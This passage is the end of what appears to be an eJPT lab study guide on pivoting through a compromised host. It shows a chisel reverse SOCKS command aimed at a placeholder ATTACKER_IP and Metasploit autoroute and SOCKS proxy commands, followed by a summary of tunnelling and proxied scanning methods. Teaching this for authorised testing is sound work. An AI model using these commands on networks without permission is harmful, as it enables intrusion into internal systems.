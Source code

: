 ```
./chisel client ATTACKER_IP:8000 R:1080:socks
```
- Metasploit route + SOCKS:
```
run post/multi/manage/autoroute
use auxiliary/server/socks_proxy; set SRVHOST 127.0.0.1; set SRVPORT 1080; run
```

## Summary
This overview covered the why and how of pivoting in eJPT labs: identify internal subnets from a reachable or compromised pivot, choose an appropriate tunneling method (SSH -D/-L/-R, chisel, socat, Metasploit autoroute + socks_proxy), verify with a simple connection, then scan and access internal services using proxy-aware tools (proxychains + Nmap with -sT/-Pn). Use local forwards for targeted services (RDP/DB), remote forwards to receive shells, and dynamic SOCKS for flexible multi-host enumeration. Keep tunnels stable, tune scan performance, and clean up after the engagement.